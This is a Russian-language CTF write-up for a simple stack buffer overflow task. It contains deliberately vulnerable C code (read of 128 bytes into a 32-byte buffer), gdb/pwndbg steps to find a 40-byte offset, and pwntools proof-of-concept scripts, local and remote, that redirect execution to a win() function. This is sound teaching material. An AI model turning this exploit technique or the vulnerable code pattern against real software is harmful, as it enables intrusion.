









# WRITEUP.md

### Description

Самая простая таска на `jump` технику во фремовом стеке

### Solition


#### Step 1
Смотрим сорцы `app/main.c`:

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void win() {
  char* flag = getenv("FLAG");
  puts(flag);
}

void func() {
  char buffer[32];
  read(0, buffer, 128);
}

int main() {
  int a = 64;
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  func();
}
```

Видим, что флаг можно получить, вызвав функцию `win()`, но в программе она нигде не используется.  

При анализе функции `func()` обнаруживаем переполнение буфера (очевидное уязвимое место).  

Следовательно, если подменить **return address** в стеке на адрес `win()`, то при завершении `func()` управление перейдёт не обратно в `main()`, а в `win()`, что даст нам флаг.


### Step 2 (manual)

Нам потребутеся gdb-pwngdb, скрипт по установке [gdb_weaponize.sh](https://github.com/devopscoder331/utils/blob/master/gdb_weaponize.sh).

Запускам `gdb-pwndbg main`:



Вводим команды `info functions` и `break func`:



Стоим на начале функции func(), нам нужно дойти до инструкции `read@plt` , вводя `ni` видим как перемещаемся в стеке до `read@plt`





В таске потребуется выполнить 5 раз `ni`. Читаем на стек по адресу `0x7fffffffd900`, а `return address value` у нас `0x7fffffffd928`



Считаем кол-во байт сколько нужно отправить 40 байт + 8 байт адрес на который нужно прыгнуть.

### Step 2 (cyclic - De Bruijn sequence)

Высчитать нужное кол-во байт можно через последовательность Де Брейна, в `pwngdb` это команда `cyclic <bite>`. Набираем `cyclic 128`, получаем пейлод и набираем `r`:



Переходим в начало функции `func()`, выполняем `continue`, вставлеяем пейлод `aaaaaaaabaa....`



Получем переполнение буфера и видим на какой адрес совершается прыжок `0x4011a0 <func+32>  ret  <0x6161616161616166>`.



Выполняем `cyclic -l 0x6161616161616166` и получем `offset 40`, то есть нам нужно 40 байт, после чего перезаписываем `return address value`

### Step 3 (POC)

Пишем POC для локального запуска `FLAG="flag{simple_jump}" python3 poc_local.py`:



```py
from pwn import *

p = process('../app/main')
payload = b'A'*40+p64(0x0000000000401156)
p.sendline(payload)
p.interactive()
```


И для сетевого взаимодействия `python3 poc_network.py`:

```py
from pwn import *

#context.log_level = 'debug' # debug mode

p = remote('0.0.0.0', 9000)
payload = (b'A'*40+p64(0x0000000000401156))
p.sendline(payload)

response = p.recvall() 
print(response.decode())
```

